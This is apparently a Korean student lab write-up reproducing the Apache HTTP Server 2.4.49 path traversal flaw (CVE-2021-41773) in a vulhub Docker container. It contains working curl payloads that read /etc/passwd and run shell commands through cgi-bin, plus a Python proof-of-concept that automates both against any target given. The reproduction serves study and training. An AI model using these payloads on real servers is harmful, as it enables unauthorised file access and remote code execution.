






# Apache HTTP Server 2.4.49에서 경로 우회로 인한 파일 유출 취약점 발생 | CVE-2021-41773

> 화이트햇스쿨 3기 17반 - [김기원 (@kimkiw0n)](https://github.com/kimkiw0n)

<br/>

## 설명

>Apache HTTP Server 프로젝트는 UNIX와 Windows를 포함한 최신 운영체제용 오픈소스 HTTP 서버를 개발하고 유지하는 것을 목표로 하는 프로젝트입니다. <br/><br/> Apache HTTP Server 2.4.49 버전에서 경로(normalization) 처리 방식이 변경되면서 취약점이 발견되었습니다. 공격자는 경로 탐색(Path Traversal) 공격을 통해, 원래 접근이 허용되지 않은 문서 루트(document root) 외부 파일에 접근할 수 있습니다. <br/><br/> 이때, 기본 설정인 "require all denied"가 적용되지 않은 디렉터리에 있는 파일이라면 공격자가 요청을 성공시킬 수 있습니다. 또한, 해당 경로에 대해 CGI 스크립트 실행이 허용되어 있을 경우, 원격 코드 실행(Remote Code Execution, RCE)까지 발생할 수 있습니다.

<br/>

## 요약

- **Apache HTTP Server 2.4.49** 버전에서는 경로 정규화(normalization) 처리에 문제가 있어 **경로 탐색(Path Traversal)** 취약점이 발생했습니다.  
- 공격자는 이 취약점을 이용해 원래 접근이 제한되어야 하는 서버 파일에 접근할 수 있습니다.  
- 또한, 해당 경로에 **CGI 실행 권한**이 부여되어 있을 경우, **원격 코드 실행(RCE)** 까지 이어질 수 있습니다.  
- 이는 기본 설정인 `require all denied`가 제대로 적용되지 않은 경우 더욱 심각해집니다.

<br/>

## 참고 링크

- [Apache HTTP Server 2.4 보안 취약점 목록](https://httpd.apache.org/security/vulnerabilities_24.html)
- [Apache HTTPD 2.4.49 경로 우회 취약점(CVE-2021-41773)의 위험성과 PoC 공개 사실을 경고하는 트위터 게시물](https://twitter.com/ptswarm/status/1445376079548624899)
- [CVE-2021-41773 취약점으로 인해 '서버 민감 파일 읽기 가능'에 대한 설명 및 예시를 말하는 트위터 게시물](https://twitter.com/HackerGautam/status/1445412108863041544)
- [서버에 CGI 또는 CGID 모듈이 활성화된 경우, 발생한 경로 탐색 취약점 실제 공격 성공 사례를 말하는 트위터 게시물](https://twitter.com/snyff/status/1445565903161102344)
- [Vulhub - CVE-2021-41773 환경 구성 링크](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)

<br/>

## 환경 구성 및 실행
- `vulhub` 레포지토리에서 Apache HTTP Server 2.4.49(CVE-2021-41773) 취약점 실습 환경을 준비합니다. (Fork로 복제)



<br/>

- 준비된 Dockerfile과 docker-compose.yml 파일을 이용하여 컨테이너를 실행합니다.

<br/>

취약한 버전의 Apache HTTP 서버를 실행하려면 아래 명령어를 입력해야 한다.
```bash
(1) 저장소 복제
git clone https://github.com/kimkiw0n/vulhub.git

(2) 디렉토리 이동
cd vulhub/httpd/CVE-2021-41773

(3) 도커 컴포즈로 컨테이너 실행
docker-compose up -d
```
서버가 잘 가동되면, `http://local:8080`에 접속하여 "It works!"라고 표시된 Apache HTTP Server 기본 페이지를 확인할 수 있습니다.

<br/>

## 공격
**1. 파일 읽기 공격 (Path Traversal)**
- `/etc/passwd` 파일을 읽어오는 공격을 수행합니다.
```bash
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

<br/><br/>

**2. 명령어 실행 공격 (Remote Code Execution, RCE)**
- `id` 명령어를 서버에서 실행하여 결과를 확인합니다.
```bash
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

---

<br/>

**해당 공격 IP**

<br/>



<br/>

**3. PoC 스크립트를 이용한 공격 자동화**
- 위 curl 명령어를 Python으로 자동화한 PoC 스크립트(poc.py)를 작성하였습니다.
```bash
import sys
import subprocess

def exploit_command_execution(target_ip_port):
    url = f"http://{target_ip_port}/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
    data = "echo;id"
    
    print("[*] Trying command execution...")

    try:
        subprocess.run([
            "curl", "-v",
            "--data", data,
            url
        ], check=True)
    except subprocess.CalledProcessError:
        print("[-] Command execution failed!")

def exploit_file_read(target_ip_port):
    url = f"http://{target_ip_port}/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
    
    print("[*] Trying file read (/etc/passwd)...")

    try:
        subprocess.run([
            "curl", "-v",
            "--path-as-is",
            url
        ], check=True)
    except subprocess.CalledProcessError:
        print("[-] File read failed!")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: python3 {sys.argv[0]} <TARGET_IP:PORT>")
        print(f"Example: python3 {sys.argv[0]} 192.168.0.10:8080")
        sys.exit(1)

    ip_port = sys.argv[1]

    exploit_command_execution(ip_port)
    print("\n" + "="*50 + "\n")
    exploit_file_read(ip_port)
```
---
**해당 코드 사용 방법**
```bash
PoC 실행 방법
python poc.py your-ip:8080
```
---


---

<br/>

**해당 공격 IP**

<br/>




<br/>

## 정리
- Apache HTTP Server 2.4.49 버전은 경로 정규화 문제로 인해 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점이 존재합니다.

- 기본 설정(require all denied)이 제대로 적용되지 않거나, CGI 모듈이 활성화된 경우 심각한 보안 위협이 발생할 수 있습니다.

- 본 실습에서는 curl 명령어와 직접 작성한 poc.py 스크립트를 통해 취약점을 재현하고 성공적으로 공격을 수행하였습니다.

<br/>

## 🔗 과제 GitHub 레포지토리 링크

- [Fork한 내 GitHub 레포지토리 URL (CVE-2021-41773)](https://github.com/kimkiw0n/vulhub/tree/myCVEflow/httpd/CVE-2021-41773)

<br/>

## 🔗 Pull Request 링크

- [Pull Request: CVE-2021-41773 취약점 환경 구성 및 재현](https://github.com/kimkiw0n/vulhub/pull/2)
